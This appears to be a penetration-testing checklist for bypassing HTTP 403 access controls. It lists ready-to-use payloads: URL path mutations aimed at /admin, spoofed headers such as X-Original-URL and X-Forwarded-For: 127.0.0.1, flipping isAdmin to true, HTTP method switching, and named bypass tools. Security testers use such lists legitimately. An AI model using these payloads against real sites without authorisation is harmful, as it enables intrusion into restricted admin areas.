 
# 403 Bypass Checklist

## Understanding HTTP Errors
- **401 Unauthorized**: Authentication required. Indicates the user is not logged in or lacks the proper credentials.
- **403 Forbidden**: The server understands the request but refuses to authorize it. This can happen even for authenticated users due to restrictions (e.g., permissions, IP filtering, etc.).

---

## Techniques for Bypassing 403 Errors

### 1. URL Manipulation
- Variations in the URL might bypass restrictions. Try the following:
  - `/admin` → 403  
    - `/Admin` → 200  
    - `/AdMin` → 200  
    - `/admin/` → 200  
    - `/admin/.` → 200  
    - `//admin//` → 200  
    - `/.;/admin` → 200  
    - `/./admin/..` → 200  
    - `/admin.json` → 200  
    - `/;/admin` → 200  
    - `//;//admin` → 200  
    - `/admi%6e` → 200  
    - `/%2e/admin` → 200  
    - `/admin..;/` → 200  

- **Fuzzing URLs**:
  - Use tools like *ffuf*, *dirsearch*, or *burp intruder* to test endpoint variations:
    - `/FUZZ/admin`
    - `/admin/FUZZ`
    - `/adminFUZZ`

### 2. Header Manipulation
- Modify HTTP headers to bypass 403 restrictions. Test using tools like Burp Suite's *Param Miner*. Examples:
  - Add or modify headers:
    ```http
    GET /anything HTTP/1.1
    Host: target.com
    X-Original-URL: /admin
    ```
  - Other header options:
    - `X-Rewrite-URL: /admin`
    - `X-Forwarded-For: 127.0.0.1`
    - `X-Forwarded: 127.0.0.1`
    - `Forwarded-For: 127.0.0.1`
    - `X-Remote-IP: 127.0.0.1`
    - `Host: localhost`

### 3. Parameter Tampering
- Modify query or POST parameters:
  - Example 1:
    - Original: `isAdmin=false`
    - Tampered: `isAdmin=true`
  - Example 2:
    - Original: `?view=restricted`
    - Tampered: `?view=public`
- **Remove Restrictive Parameters**:
  - Sometimes, removing certain parameters can bypass restrictions:
    - Original: `?auth=required`
    - Tampered: Remove `auth=required`.

### 4. HTTP Method Switching
- Change the HTTP method:
  - Example:
    ```http
    GET /admin HTTP/1.1
    Host: target.com
    ```
    Change to:
    ```http
    POST /admin HTTP/1.1
    Host: target.com
    ```

- Add method override headers:
  ```http
  POST /admin HTTP/1.1
  Host: target.com
  X-http-method-override: GET
  ```

### 5. Use Automation Tools
- Leverage automation tools for efficient testing:
  - **Burp Suite Extensions**:
    - Install "403 Bypasser" via the BApp store.
  - **GitHub Repositories**:
    - [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
    - [Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3)
    - [diablo-101/403-bypass](https://github.com/diablo-101/403-bypass)

> **Tip**: Use multiple tools for better results, as one tool might miss certain bypass opportunities that another could find.
